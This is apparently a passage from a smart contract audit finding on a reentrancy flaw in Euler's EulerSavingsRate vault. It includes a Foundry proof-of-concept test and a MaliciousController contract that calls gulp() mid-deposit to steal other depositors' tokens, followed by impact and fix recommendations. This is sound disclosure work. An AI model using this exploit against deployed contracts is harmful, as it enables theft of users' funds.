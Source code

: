 ```solidity

        vm.prank(user2);
        uint received = savings.redeem(shares2, user2, user2);
        emit log("User 2 (malicious) received");
        emit log_uint(received);

        vm.startPrank(user1);
        vm.expectRevert();
        savings.redeem(shares, user1, user1);
        vm.stopPrank();
    }
```

```solidity
contract MaliciousController {

    EulerSavingsRate savings;
    bool gulpNextCall;

    constructor(address s) {
        savings = EulerSavingsRate(s);
    }

    function setGulpNextCall() external {
        gulpNextCall = true;
    }

    function checkAccountStatus(address user, address[] calldata collaterals) external returns (bytes32 magicValue) {
        if (gulpNextCall) {
            savings.gulp();
            gulpNextCall = false;
        }
        return bytes32(bytes4(0xb168c58f));
    }
```

#### Impact

High. An attacker can steal tokens from other depositors and increase the price per share to borrow more on an Euler lending market.

#### Recommendation

Consider implementing **both** of these suggestions:

- Consider adding a reentrancy lock to the [`deposit()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/lib/openzeppelin-contracts/contracts/token/ERC20/extensions/ERC4626.sol#L171-L171) and [`gulp()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L130-L130) functions.

- Consider updating the `totalAssetsDeposited` before calling the `super._deposit()` and `super._withdraw()` in [`_deposit()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L117-L117) and [`_withdraw()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L122-L122) since the call to the controller happens after the eSynth tokens are sent to or from the vault.
